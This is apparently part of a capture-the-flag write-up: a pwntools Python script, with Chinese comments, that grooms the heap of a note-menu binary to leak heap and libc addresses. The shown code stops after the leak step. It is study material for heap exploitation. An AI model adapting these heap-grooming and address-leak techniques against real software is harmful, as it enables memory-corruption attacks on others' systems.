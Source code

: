 
## 最终脚本

```
from pwn import *
import time

def new_note(index,size,info):
    p.sendline("1")
    #print 1
    p.recvuntil("index: ")
    p.sendline(str(index))
    #print index
    p.recv(512)
    p.sendline(str(size))
    #print size
    p.recvuntil("info: ")
    if info == '*':
        p.sendline('')
    else:
        p.sendline(info)
    #print info
    p.recvuntil("choice: ")

def show_note(index):
    p.sendline("2")
    #print 2
    p.recvuntil("index: ")
    p.sendline(str(index))
    #print index
    return p.recvuntil("choice: ")

def delete_note(index):
    p.sendline("3")
    #print 3
    p.recvuntil("index: ")
    p.sendline(str(index))
    #print index
    p.recvuntil("choice: ")

def exit():
    p.sendline("4")
    #print 4

context.arch = 'amd64'
context.log_level = 'info'
libc_elf = ELF('/lib/x86_64-linux-gnu/libc.so.6')

p = process("./curse_note_patch")
p.recvuntil("choice: ")

# 1. leak heap & libc address

new_note(0, 0xf0-8, 'A'*(0xf0-8-1)) #chunk_AAA
new_note(1, 0x70-8, 'B'*(0x70-8-1)) #chunk_BBB
new_note(2, 0x100-8, 'C'*(0x100-8-1))   #chunk_CCC
delete_note(1)  #因为只能创建3个chunk，需要先删chunk_BBB
new_note(1, 0x10, 'D'*(0x10-1)) #chunk_DDD
delete_note(1)  #利用fastbin中chunk的pre_size为1特性，避免chunk_CCC释放时合入top chunk
new_note(1, 0x70-8, 'B'*(0x70-8-1)) #chunk_BBB is back
delete_note(2)  #free chunk_AAA to unsortbin
delete_note(0)  #free chunk_CCC to unsortbin
new_note(2, 0x100-8, 'C'*7) #chunk_CCC的bk为chunk_AAA的地址，即堆地址
addr = show_note(2)
```